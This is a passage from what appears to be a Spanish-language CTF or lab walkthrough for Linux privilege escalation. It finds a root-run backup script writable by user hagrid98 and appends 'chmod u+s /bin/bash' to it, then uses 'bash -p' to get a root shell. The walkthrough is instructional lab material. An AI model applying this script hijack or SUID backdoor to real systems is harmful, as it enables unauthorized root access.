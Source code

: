 Resultado:

```bash
./proc/908/timerslack_ns
./proc/908/patch_state
./opt/.backup.sh --> Este es raro
./sys/fs/cgroup/systemd/user.slice/user-1000.slice/user@1000.service
```

Explicación: buscamos archivos cuyo propietario sea el usuario `hagrid98`. Y encontramos un script llamado `backup.sh`. Merece la pena inspeccionar que hace

Acción:

```bash
cat /opt/.backup.sh
ls -l /opt/.backup.sh
ls -l /tmp/tmp_wp_uploads 
```

Resultado:

```bash
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads
---
-rwxr-xr-x 1 hagrid98 hagrid98 81 Apr  1  2021 /opt/.backup.sh
---
total 16
drwxr-xr-x 5 root root 4096 Sep 25 20:10 2021
drwxr-xr-x 3 root root 4096 Sep 25 20:10 2025
drwxr-xr-x 5 root root 4096 Sep 25 20:12 uploads
drwxr-xr-x 3 root root 4096 Sep 25 20:10 wp-file-manager-pro
```

Explicación: vemos que el script crea una copia temporal de lo almacenado en la ruta `/usr/share/wordpress/wp-content/uploads/` en la ruta `/tmp/tmp_wp_uploads` y además el propietario de esta última ruta es `root` por lo que la escalada de privilegios va a ser tan sencilla como hacer lo siguiente

Acción:

```bash
ls -l /bin/bash
nano /opt/.backup.sh
ls -l /bin/bash
bash -p
```

Resultado:

```bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
---
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads 
chmod u+s /bin/bash
---
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
---
bash-5.0# whoami
root
```
